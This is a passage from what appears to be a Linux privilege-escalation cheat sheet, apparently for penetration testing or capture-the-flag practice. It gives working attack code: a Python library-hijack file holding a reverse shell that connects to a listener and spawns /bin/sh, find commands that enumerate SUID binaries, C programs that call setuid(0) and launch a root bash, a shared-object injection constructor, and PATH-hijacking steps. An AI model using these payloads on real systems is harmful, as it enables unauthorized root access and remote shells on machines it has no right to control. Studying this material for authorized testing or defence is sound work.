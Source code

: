     import bad   
    print("Normal script")    
Create bad.py and place it in the same directory as the script, then run nc on the box to get a shell:    

    import socket 
    import subprocess 
    import os   
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1",1337)) 
    os.dup2(s.fileno(),0) 
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p = subprocess.call(["/bin/sh","-i"])        
### Wildcards 
[Exploiting wildcards in Linux](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/) 

## SUID Binaries 
Overwrite binary, use [gtfobins](https://gtfobins.github.io/) exploits, insert missing shared object, manipulate enviromental variables 

    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;  2>/dev/null     
    find / -type f -a -perm -o+x -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null  
    
### Custom Executable
    int main(){
        setuid(0);
        system("/bin/bash -p");
    }  
### Shared Object Injection 
look for missing shared objects searched for in writable directories 

    strace [suid binary] 2>&1 | grep -iE “open|access|no such file” 
    [missing shared object].c  
    
    #include <stdio.h> 
    #include <stdlib.h> 
    static void inject() __attribute__((constructor));  
    void inject(){ 
     setuid(0); 
     system("/bin/bash -p"); 
    } 
    
    gcc -shared -fPIC -o [missing shared object].so [missing shared object].c 
    run suid binary 
### PATH Enviromental Variables 
SUID /SGID binary tries to execute another file without absolute path? -> change PATH var 

    strings [suid binary] 
    strace -v -f -e execve [suid binary] 2>&1 | grep exec 
    ltrace [suid binary]  
    